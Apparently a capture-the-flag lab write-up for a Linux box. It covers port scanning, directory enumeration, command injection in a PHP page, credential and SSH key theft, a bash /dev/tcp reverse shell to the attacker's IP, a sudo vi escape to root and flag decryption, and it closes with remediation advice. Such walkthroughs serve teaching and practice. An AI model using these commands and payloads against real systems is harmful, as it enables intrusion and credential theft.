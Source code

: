 Execution Steps
1. Reconnaissance and Vulnerability Discovery
Target IP Address: 10.201.75.222

Attacker IP Address: 10.201.44.153

Initial Scanning:

bash
nmap -sC -sV 10.201.75.222
Results:

Port 21/FTP: Anonymous authentication enabled

Port 80/HTTP: Apache web server running

Port 113: Contained critical path disclosure vulnerability

Web Directory Enumeration:

bash
gobuster dir -u http://10.201.75.222/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php,html
Critical Discoveries:

/home.php - Unauthenticated command injection vulnerability

/validate.php - Configuration file containing plaintext credentials

2. Initial Compromise
Credential Extraction:

bash
curl -X POST http://10.201.75.222/home.php --data "command=cat /var/www/html/validate.php"
Compromised Credentials:

Username: charlie

Password: cn7824

Reverse Shell Establishment:

bash
Attacker listener
nc -nvlp 1234

Command injection payload
bash -c 'exec bash -i &>/dev/tcp/10.201.44.153/1234 <&1'
3. Privilege Escalation Path
SSH Key Discovery:

bash
cd /home/charlie
ls -la
Directory Contents:

teleport - Private SSH key (RSA)

teleport.pub - Public SSH key

user.txt - User flag (restricted access)

Key Extraction:

bash
cat /home/charlie/teleport
Private Key Content:

text
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
[...full key content...]
-----END RSA PRIVATE KEY-----
4. Preparation for Final Access
The private key was successfully manually copied and stored in the teleport file on the attacking machine. Appropriate permissions were set:

bash
chmod 600 teleport
Next Steps
Establish SSH connection using the compromised private key

Retrieve user flag (user.txt)

Exploit sudo misconfiguration for privilege escalation

Obtain root flag (root.txt)

FINAL 
Attack Chain Summary
Phase 1: Initial Access
Technique: Web Directory Enumeration

Command:

bash
gobuster dir -u http://10.201.122.107/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php,html
Finding: Discovered /home.php with command injection capability

Phase 2: Reverse Shell Establishment
Technique: Remote Code Execution via Command Injection

Local Listener:

bash
nc -nvlp 1234
Payload Executed:

text
bash -c 'exec bash -i &>/dev/tcp/10.201.30.228/1234 <&1'
Phase 3: Lateral Movement
Technique: SSH Private Key Compromise

Key Location: /home/charlie/teleport

Transfer Method: Base64 encoding/decoding

SSH Access:

bash
chmod 600 teleport
ssh -i teleport charlie@10.201.122.107
Phase 4: Privilege Escalation
Technique: Sudo Misconfiguration Abuse

Vulnerable Command: vi with sudo privileges

Exploitation:

bash
sudo vi -c ':!/bin/sh' /dev/null
Phase 5: Final Flag Extraction
Method: Cryptographic Decryption

Key: -VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=

Encrypted Data: gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ

Decryption Command:

python
from cryptography.fernet import Fernet
f = Fernet(key)
print(f.decrypt(encrypted_mess).decode())
Critical Vulnerabilities Identified
Unauthenticated RCE via web command injection

Plaintext credential storage in web-accessible files

SSH private key exposure with inadequate protection

Sudo misconfiguration allowing privilege escalation

Insecure cryptographic implementation with hardcoded keys

Security Recommendations
Implement input validation and sanitization for web applications

Remove unnecessary sudo privileges for service accounts

Store sensitive credentials using secure secret management

Conduct regular security assessments and penetration testing

Implement network segmentation and access controls
The assessment successfully identified and exploited a critical remote code execution vulnerability in the web application. Unauthorized access was achieved through command injection, leading to the compromise of sensitive authentication credentials and cryptographic material. The obtained SSH private key provides a persistent access mechanism to the target environment.
